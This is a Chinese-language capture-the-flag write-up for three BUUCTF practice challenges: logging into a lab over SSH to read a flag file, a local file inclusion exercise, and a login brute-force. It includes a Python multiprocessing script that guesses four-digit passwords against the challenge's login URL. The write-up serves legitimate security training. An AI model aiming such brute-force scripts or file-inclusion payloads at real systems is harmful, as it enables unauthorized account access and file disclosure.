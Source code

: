 # Linux Labs 1

<img src="../picture/image-20230221213950478.png" alt="image-20230221213950478" style="zoom:100%;" />

点击http链接进入Index of<img src="../picture/image-20230221214034848.png" alt="image-20230221214034848" style="zoom:100%;" />

四个链接皆无反应，重新观察

<img src="../picture/image-20230221214413039.png" alt="image-20230221214413039" style="zoom:100%;" />

给出了 ssh 以及映射地址和端口（这个地址+端口是随机的)



CMD 输入ssh 指令格式：ssh -p 端口 用户名@地址
然后输入密码123456（cmd界面不显示输入密码）

<img src="../picture/image-20230221214853461.png" alt="image-20230221214853461" style="zoom:100%;" />

输入**ls**
![在这里插入图片描述](../picture/a36655c98739431a870b11a5c00bb240.png)

显示空白，证明刚连上就进入的文件夹是个空文件夹

返回上级目录

输入cd ..

输入ls

![image-20230221215100247](../picture/image-20230221215100247.png)

可以发现有flag.txt文件

输入cat flag.txt

![image-20230221215220977](../picture/image-20230221215220977.png)

得到flag

# BUU LFI COURSE 1

![image-20230221215634179](../picture/image-20230221215634179.png)

通过代码审计得知是需要用get方式传递一个参数
首先我们尝试直接获取flag

![image-20230221215828994](../picture/image-20230221215828994.png)

输出界面未显示flag，猜想可能是在[根目录](https://so.csdn.net/so/search?q=根目录&spm=1001.2101.3001.7020)下，所以构造payload

使用

![](../picture/image-20230221220012683.png)

or

![image-20230221220041657](../picture/image-20230221220041657.png)

获得flag

![image-20230221220052029](../picture/image-20230221220052029.png)

# BUU BRUTE 1

![image-20230221221133299](../picture/image-20230221221133299.png)

多次试验得出用户名为admin

得到提示：密码为四位数字

使用python脚本进行多进程或多线程发送 HTTP 请求破解密码

```python
import requests
import multiprocessing


def crack_password(password):
    url = "http://c3b2bda1-d359-4c13-8db5-42b241e9ed56.node4.buuoj.cn:81/"
    params = {"username": "admin", "password": str(password)}
    response = requests.get(url, params=params)
    if response.text != "密码错误，为四位数字。":
        print("密码为：" + str(password))
        return True
    return False


if __name__ == "__main__":
    pool = multiprocessing.Pool(processes=4)  # 设置进程数为 4
    for i in range(1000, 9999):
        print("破解到：" + str(i))
        result = pool.apply_async(crack_password, (i,))
        if result.get():
            break
    pool.close()
    pool.join()
```

得到密码：6490

![image-20230221224339181](../picture/image-20230221224339181.png)

输入密码得到flag

![image-20230221224420217](../picture/image-20230221224420217.png)